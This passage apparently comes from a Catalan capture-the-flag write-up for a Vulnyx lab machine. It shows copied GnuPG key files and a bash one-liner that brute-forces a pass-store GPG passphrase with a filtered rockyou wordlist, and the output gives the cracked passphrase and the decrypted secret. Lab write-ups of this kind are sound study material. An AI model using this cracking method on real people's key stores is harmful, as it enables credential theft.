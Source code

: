 ```bash
trustdb.gpg                                              100% 1280   442.1KB/s   00:00
.#lk0x

000055afe4c8a3f0.solar.309336                      100%   17     5.5KB/s   00:00
E6DB2B029F01725397A555CD6CE6C909C038D50C.rev             100% 1626   528.3KB/s   00:00
pubring.k

bx~                                             100% 1960   713.3KB/s   00:00
C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95.key             100% 3105     1.9MB/s   00:00
18DB29FBB15652340964CF0E1C710F34AA848ADD.key             100% 3105     1.7MB/s   00:00
```

Utilitzant rockyou i filtrant les contrasenyes que comencen per "love" i acaben en un número, intentem obtenir el passphrase utilitzat per encriptar la clau GPG amb el següent script bash.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ time grep -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt | xargs -P 4 -I {} sh -c 'echo "Testing passphrase: {} ..."; gpg --batch --yes --passphrase "{}" --pinentry-mode loopback --decrypt .password-store/work/office.gpg 2>/dev/null && echo "** Passphrase found: {}" && killall xargs'
Testing passphrase: love123 ...
Testing passphrase: love12 ...
Testing passphrase: loveme1 ...
Testing passphrase: lovely1 ...
Testing passphrase: lover1 ...
...
Testing passphrase: love27 ...
Testing passphrase: lovers2 ...
Testing passphrase: loverboy1 ...
Testing passphrase: love55 ...
Testing passphrase: love77 ...
Testing passphrase: love45 ...
d1NpIh1bCKMx
** Passphrase found: loverboy1
zsh: broken pipe  grep --color=auto -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt |
zsh: terminated   xargs -P 4 -I {} sh -c

real    21,11s
user    0,05s
sys     0,00s
cpu     0%

real    21,11s
user    0,16s
sys     0,02s
cpu     0%
```

En uns 21 segons obtenim el passphrase de la clau GPG `loverboy1` i les dades encriptades de `.password-store/work/office.gpg` `d1NpIh1bCKMx`, tot i que aquesta contrasenya no ens servirà. Ara podem visualitzar la resta de contrasenyes al gestor `pass`.

### Node
